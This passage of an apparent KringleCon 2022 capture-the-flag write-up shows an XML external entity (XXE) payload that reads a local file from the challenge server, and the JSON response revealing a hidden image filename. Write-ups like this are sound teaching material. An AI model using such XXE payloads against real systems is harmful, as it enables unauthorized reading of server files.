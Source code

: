 Honestly, it seemed like a huge leap in logic but reading the earlier response,
the princess explicitly tells us that she thought we wanted her to look at the
silver ring.

Now the payload becomes the following:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
 <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&xxe;</reqType>
</root>
```

which returns the following:

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}

```

![goldring-morethansupertopsecret76394734.png](/kringlecon/2022/goldring-morethansupertopsecret76394734.png)

We paste the name of this file `goldring-morethansupertopsecret76394734.png` in
our objective and that finishes this challenge. Moral: don't underestimate NPC
dialogues.
